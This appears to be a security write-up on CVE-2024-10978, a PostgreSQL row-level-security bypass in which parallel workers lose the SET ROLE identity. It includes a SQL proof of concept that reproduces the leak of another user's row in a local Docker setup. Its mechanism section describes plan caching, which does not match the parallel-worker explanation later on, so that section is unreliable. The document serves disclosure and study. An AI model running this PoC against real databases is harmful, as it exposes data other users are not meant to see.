


# CVE-2024-10978 CWE-266 PostgreSQL Access Control Bypass

## Vulnerability Background
- **PostgreSQL:** PostgreSQL is an open-source, powerful object-relational database management system widely used in web development, data analysis, and enterprise-level applications. It supports ACID transactions, complex queries, full-text searches, and Multi-Version Concurrency Control (MVCC), ensuring high concurrency and data consistency. PostgreSQL offers extensibility, allowing users to customize data types, functions, and indexes, and also supports JSON and geospatial data.
- **GUC (Grand Unified Configuration):** PostgreSQL's unified runtime configuration subsystem, used to manage the definition, validation, assignment, and visibility of all parameters (such as parallelism, memory, time zone, optimizer switches, etc.). Each parameter has a type, default value, scope, and priority source (postgresql.conf, ALTER SYSTEM, environment variables, command line, `SET`/`SET LOCAL`, role/database level settings, etc.), and is restricted by "change context" (must restart, SIGHUP, effective in session/transaction, modifiable only by superuser, etc.). GUC also supports `check/assign/show` hook validity checks and linked updates, with queries and modifications completed via `current_setting()`/`set_config()`; Some development/test switches (such as `force_parallel_mode` and v16 `debug_parallel_query`) are essentially GUC parameters as well.

## Vulnerability Mechanism
When generating query plans, PostgreSQL binds the corresponding role's line-level security (RLS) policy to the plan, but in scenarios involving CTEs, subqueries, SubLinks, views, or SQL functions, these plans are not fully labeled as "dependency roles," resulting in plans being reusable across roles after caching; This way, when a query is prepared under one role and executed under another, the incorrect RLS policy will be applied, causing access control to be bypassed, allowing users to see or modify lines that do not belong to them.

## Vulnerability Location
Analysis of PostgreSQL 16.0 source code:

The src/backend/access/transam/parallel.c file is responsible for executing parallel queries in PostgreSQL.

Line **1262** The ParallelWorkerMain function is the main entry function for the parallel worker process, responsible for initializing all necessary resources for the parallel worker process and ultimately executing the target task.

In parallel work processes, the worker needs to maintain a consistent identity and role status with the leader. However, the problem is that parallel workflows did not properly synchronize `current_setting('role')` and `current_user/current_role` during initialization, resulting in identity misalignment. The most obvious manifestation of this problem is that the `current_setting('role')` of a parallel worker process is incorrectly set to `'none'`, thereby mistakenly allowing data that should not have been accessed.

## Remediation

Upgrade to PostgreSQL 17.1, 16.5, 15.9, 14.14, 13.17, 12.21, or a later release on the corresponding branch.
Added operations for restoring session users (`session_user_id`) and role users (`current_user_id`), explicitly transmitting these identity information to ensure work progress aligns with leadership processes. , avoiding identity mismatch issues during parallel execution.

```c
SetAuthenticatedUserId(fps->authenticated_user_id);
SetSessionAuthorization(fps->session_user_id, fps->session_user_is_superuser);
SetCurrentRoleId(fps->outer_user_id, fps->role_is_superuser);
```

## Affected Versions
**Affected version:** PostgreSQL:

- 12.0 to 12.20

- 13.0 to 13.16

- 14.0 to 14.13

- 15.0 to 15.8

- 16.0 to 16.4

## Environment Setup
Start the Docker environment, PostgreSQL version 16.0, administrator postgres, password postgres, database test already exists.

```txt
CNA:PostgreSQL    Base Score:4.2 MEDIUM    Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:L/I:L/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:16.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Use Postgres user identity to connect to the PostgreSQL database test in the container and run the PoC file.

In Step 7, the policy thinks "Role9 is currently enabled," but during parallel execution, the policy's `current_setting('role')` becomes `'none'`, mistakenly allowing a line that does not belong to Role9, i.e., user8.

```bash
docker exec -it postgres-16.0 psql -U postgres -d test -f CVE-2024-10978-PoC.sql
```



## PoC Analysis
Suitable for 16.0+

```sql
CREATE ROLE regress_priv_user8 LOGIN;
CREATE ROLE regress_priv_user9 LOGIN;
GRANT regress_priv_user9 TO regress_priv_user8;

CREATE TABLE rls_t(
  id    serial PRIMARY KEY,
  owner name NOT NULL,
  note  text NOT NULL
);

GRANT SELECT ON rls_t TO regress_priv_user9;

INSERT INTO rls_t(owner, note) VALUES
  ('regress_priv_user8','u8-row-1'),
  ('regress_priv_user9','u9-row-1');
  
ALTER TABLE rls_t ENABLE ROW LEVEL SECURITY; 

-- Enable RLS and create a policy
ALTER TABLE rls_t ENABLE ROW LEVEL SECURITY;


CREATE POLICY p_show
ON rls_t
FOR SELECT
USING (
  CASE current_setting('role')
    WHEN 'none' THEN owner = session_user
    ELSE owner = current_setting('role')::name
  END
);


-- 3) Switch the session to user8 and enable role=user9
SET SESSION AUTHORIZATION regress_priv_user8;
SET ROLE regress_priv_user9;

-- 4) Compare serial/parallel operations
SET debug_parallel_query = 0;   -- Serial queue, expecting only owner=user9 to be seen
SELECT owner, note FROM rls_t ORDER BY owner, note;

SET debug_parallel_query = 1;   -- Proceed together; The weak version also releases the row of owner=user8
SELECT owner, note FROM rls_t ORDER BY owner, note;
```

**Step 6 (Serial Processing)**
 The result was only `owner = regress_priv_user9`. This shows the truth

```
SET SESSION AUTHORIZATION regress_priv_user8;
SET ROLE regress_priv_user9;
```

Afterwards, the RLS strategy took `ELSE owner = current_setting('role')::name` branches as expected; At this moment
 `current_user = current_role = regress_priv_user9`, and the `role` seen by the policy is also equal to `regress_priv_user9`, so only row in role 9 is allowed.

**Step 7 (Parallel)**
 The result is `owner = regress_priv_user8`. This indicates that in **parallel worker**,
 `current_setting('role')` is mistakenly regarded as `'none'`, and the strategy is lost
 `WHEN 'none' THEN owner = session_user` branch; And `session_user` is `regress_priv_user8`, so **user8's line is also included**. Meanwhile, the actual adjudication identity remains role9**(`current_user/current_role = role9`)—this is the mismatch between "**GUC text identity** (role) and **actual adjudication identity** (current_user/current_role)" mismatch.

## References
[NVD - CVE-2024-10978](https://nvd.nist.gov/vuln/detail/CVE-2024-10978)

[Fix improper interactions between session_authorization and role. · postgres/postgres@5a2fed9](https://github.com/postgres/postgres/commit/5a2fed911a85ed6d8a015a6bafe3a0d9a69334ae#diff-31e00d5e45bc257711547428e70409549588c73a57cb3676302efa26d24303de)
